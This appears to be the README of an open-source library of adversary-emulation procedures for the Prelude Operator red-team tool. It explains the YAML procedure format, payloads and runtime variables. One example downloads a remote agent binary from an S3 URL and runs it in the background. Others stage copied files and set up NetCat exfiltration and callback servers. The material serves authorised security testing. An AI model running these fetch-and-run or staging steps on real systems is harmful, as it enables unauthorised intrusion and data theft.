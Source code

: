# Community

Here you will find an open-source collection of TTP files, organized by ATT&CK tactic. Each procedure describes a single action an adversary
may attempt post-compromise of a network or system.

> TTP files can be used on their own or within the Prelude Operator desktop app, where they are loaded by default on each restart. Inside Operator, you are able to import TTPs from Atomic Red Team, Caldera and other popular sources. [This video](https://www.youtube.com/watch?v=kY3-NBES1gk) shows how to import TTPs from external sources and [this video](https://www.youtube.com/watch?v=OWjgS8bzJf0) shows how to develop new procedures from within Operator.

## Understand the format

Take this example procedure. It supports three platforms (Windows, Darwin and Linux) and under each, it supports a handful of
executors: psh (PowerShell), cmd (command-line), and sh (bash).

```
id: 5a39d7ed-45c9-4a79-b581-e5fb99e24f65
metadata:
  version: 1
  authors:
    - privateducky
  tags: []
name: System processes
description: |
  Identify which processes are running on the local computer. This procedure is helpful to get a snapshot in time of
  what a computer is doing.
tactic: discovery
technique:
  id: T1057
  name: Process Discovery
platforms:
  windows:
    psh:
      command: Get-Process
    cmd:
      command: tasklist
  darwin:
    pwsh:
      command: Get-Process
    sh:
      command: ps aux
  linux:
    sh:
      command: ps aux
```

## Introducing payloads

Some executor blocks may include a payload property, such as:
```
sh:
  command: |
    chmod +x pneuma-darwin && nohup ./pneuma-darwin &
  payload: https://s3.amazonaws.com/operator.payloads/pneuma/pneuma-darwin
```
This procedure expects the payload (found at the HTTP address) to be downloaded to the target before executing the command. All Prelude agents do this by default.

## Introducing variables

Inside some commands, you will see variables, identified by a #{} syntax, such as:
```
copy #{file.T1005} #{directory.T1074}
```
The variables are meant to be replaced at runtime. In the Operator, this happens automatically but if you want to use
these files manually, you will need to fill in the desired values. The more variables you use, the more dynamic your operations will be.

Variables are either discoverable or automatic.

### Discoverable variables

Discoverable facts are those you anticipate a Prelude agent to find on its own. 

* **file**: references the absolute file path on disk
* **directory**: references the absolute path to a directory
* **ssh**: an ssh connection command
* **ip**: an ipv4 address
* **domain**: a valid domain and top-level domain (google.com)
* **password**: look for XML-style tags matching <password></password>
* **json**: JSON blob parser, formated at `json.TXXX.flat.keys`

When using discoverable variables inside commands, remember to place a dot separator with the technique ID you want the replaced
variable (fact) to come from. For example, the following variable will be replaced with each file found by running
a T1005 procedure:
```
#{file.T1005}
```

Prelude Operator parses the results from every run command, attempting to learn <i>facts</i> - which automatically fill in variables - unlocking additional procedures for execution.

### Automatic variables

Automatic facts are environmental and are applied to an agent based on conditional logic.

* **operator.session**: a unique key for your Operator session. The session key regenerates on each restart of the app and is used internally to help validate external connections originated in the app.
* **operator.payloads**: callback address of your HTTP payload server (defaults to operator.http)
* **operator.http**: callback address of your HTTP server
* **operator.tcp**: callback address of your TCP server
* **operator.udp**: callback address of your UDP server
* **operator.grpc**: callback address of your GRPC server
* **agent.name**: current name given to the agent
* **agent.location**: absolute file path of the agent file on disk

### Custom variables

Custom facts are user defined facts that can be arbitrarily defined. In general, follow the outline of `<ATT&CK Tactic>.<general description>` when defining these facts.

Example for defining a custom NetCat listening post:
* **exfiltration.netcat.ip**: IP address of the NetCat listener
* **exfiltration.netcat.port**: Port NetCat is listening on on that server


## CALDERA inspired

As former CALDERA leads, this project was originally forked and designed off of the MITRE Stockpile repository.

## Interested in contributing?

We strongly support contributors to this project. Please fork this repo and submit pull requests for considerations.
